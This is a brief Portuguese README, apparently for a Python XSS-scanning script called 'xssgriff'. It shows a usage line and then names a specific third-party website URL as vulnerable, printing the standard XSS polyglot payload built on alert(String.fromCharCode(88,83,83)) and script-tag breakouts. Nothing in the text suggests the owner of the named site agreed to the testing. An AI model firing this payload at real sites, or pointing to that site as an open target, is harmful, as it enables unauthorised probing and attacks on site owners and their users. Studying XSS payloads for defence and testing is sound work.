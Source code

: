 python;) 
xssgriff
Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br

URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>


https://www.facebook.com/JRPENTESTER
